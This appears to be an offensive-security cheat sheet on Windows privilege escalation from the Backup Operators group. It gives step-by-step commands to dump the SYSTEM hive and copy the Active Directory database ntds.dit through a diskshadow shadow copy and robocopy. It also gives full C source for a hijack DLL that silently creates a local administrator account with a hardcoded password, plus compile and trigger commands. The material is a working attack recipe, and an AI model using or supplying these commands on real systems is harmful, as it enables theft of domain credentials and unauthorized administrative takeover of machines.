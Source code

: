 # diskshadow/robocopy

1. Grab SYSTEM
```bash
reg save HKLM\SYSTEM C:\TEMP\Documents\SYSTEM
```

2. Create shadowcopy.txt
```bash
→ cat shadowscript.txt
set metadata C:\Windows\System32\spool\drivers\color\sss.cabs
set context clientaccessibles
set context persistents
begin backups
add volume c: alias coldfx#
creates
expose %coldfx% z:#
```

3. execute the script with diskshadow
```bash
diskshadow /s shadowscript.txt
```

4. copy
```bash
cd C:\TEMP
robocopy /B z:\Windows\ntds .\new_ntds ntds.dit
```

# DLL Hijack
Since the user is an member of Backup Operator Group, the user is allowed to write files anywhere on the system. 
For DLL hijacking, the malicious windowscoredeviceinfo.dll will be created by using the following code:
This dll will create a new user with credentials coldfusion:c0!dfusion and add it to local administrators group.
1. Create dll
```bash
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>


int pwn()
{
        WinExec("C:\\Windows\\System32\\net.exe users coldfusion c0!dfusion /add", 0);
        WinExec("C:\\Windows\\System32\\net.exe localgroup administrators coldfusion /add", 0);
        return 0;
}

BOOL APIENTRY DllMain(HMODULE hModule,
        DWORD  ul_reason_for_call,
        LPVOID lpReserved
)
{
        switch (ul_reason_for_call)
        {
        case DLL_PROCESS_ATTACH:
                pwn();
        case DLL_THREAD_ATTACH:
        case DLL_THREAD_DETACH:
        case DLL_PROCESS_DETACH:
                break;
        }
        return TRUE;
}
```

2. Compiling the dll:
```bash
 x86_64-w64-mingw32-gcc dllhijack.c -shared -o windowscoredeviceinfo.dll
```

3. UsoDllLoader.exe can be downloaded from here: https://github.com/itm4n/UsoDllLoader/releases/tag/1.0-20190824
4. copy windowscoredeviceinfo.dll from C:\temp\dll\ inside c:\windows\system32
```bash
robocopy /b dll c:\windows\system32 windowscoredeviceinfo.dll
```
5. Trigger dll
```bash
.\UsoDllLoader.exe
```
6. We can see new user coldfusion has been created with local administrator privileges:
